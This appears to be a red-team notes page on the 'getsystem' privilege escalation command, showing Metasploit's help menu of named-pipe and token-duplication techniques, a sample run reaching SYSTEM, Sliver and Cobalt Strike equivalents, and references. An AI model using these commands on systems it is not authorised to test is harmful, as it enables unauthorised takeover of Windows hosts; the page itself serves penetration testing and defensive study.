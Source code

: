 # Getsystem

## 01 - Manual

TODO: Write information related to getsystem that is done without using Command and Control (C2) frameworks

## 02 - Metasploit

### 2.1 - Help Menu

```
meterpreter > getsystem -h
Usage: getsystem [options]

Attempt to elevate your privilege to that of local system.

OPTIONS:

    -h   Help Banner.
    -t   The technique to use. (Default to '0').
		0 : All techniques available
		1 : Named Pipe Impersonation (In Memory/Admin)
		2 : Named Pipe Impersonation (Dropper/Admin)
		3 : Token Duplication (In Memory/Admin)
		4 : Named Pipe Impersonation (RPCSS variant)
		5 : Named Pipe Impersonation (PrintSpooler variant)
```

### 2.2 - Basics

```
meterpreter > getsystem -t 1
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

## 03 - Sliver

TODO: Write more information about getsystem sliver command with help menu

`sliver (IMPLANT_NAME) > getsystem`

## 04 - Cobalt Strike

`beacon> getsystem`

---
## References

- [What Happens When I Type Getsystem](https://www.cobaltstrike.com/blog/what-happens-when-i-type-getsystem/)

- [XPNSec Blog: Becoming System](https://blog.xpnsec.com/becoming-system/)

- [Exploit DB: Abusing Token Privileges For Local Privilege Escalation](https://www.exploit-db.com/papers/42556)

- [Helpsystems: Cobalt Strike Privilege Escalation](https://hstechdocs.helpsystems.com/manuals/cobaltstrike/current/userguide/content/topics/post-exploitation_privilege-escalation.htm)

- [HarmJ0y Get-System.ps1](https://github.com/HarmJ0y/Misc-PowerShell/blob/master/Get-System.ps1)

- [GetSystem C# implementation](https://github.com/py7hagoras/GetSystem)